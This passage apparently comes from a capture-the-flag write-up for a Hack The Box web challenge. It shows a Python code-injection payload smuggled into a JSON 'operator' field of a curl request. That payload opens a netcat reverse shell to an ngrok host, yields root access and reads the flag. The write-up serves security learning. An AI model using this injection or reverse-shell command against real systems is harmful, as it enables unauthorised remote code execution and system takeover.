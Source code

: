**Run it:**
```
┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# python3 exploit.py

┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# nc -lnvp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34074
whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),119(wireshark),142(kaboxer)
siunam
```

Yes! It works!

**Let's get a shell from the docker instance!**
```
┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# curl http://157.245.42.104:30611/api/get_health -X POST -H "Content-Type: application/json" -d '{"current_health":"100","attack_power":"0","operator":",__import__(\"os\").popen(\"nc 0.tcp.ap.ngrok.io 14434 -e /bin/sh\").read(),"}'
```

```
┌──(root🌸siunam)-[~/…/Evaluation-Deck/web_evaluation_deck/challenge/application]
└─# nc -lnvp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 55460
id
uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

**I'm in! Let's get the flag!**
```
ls -lah /
[...]
-rw-r--r--    1 root     root          32 Oct 21 13:33 flag.txt
[...]

cat /flag.txt
HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```

# Conclusion

What we've learned:

1. Exploiting `compile()` Function in a Python Web Application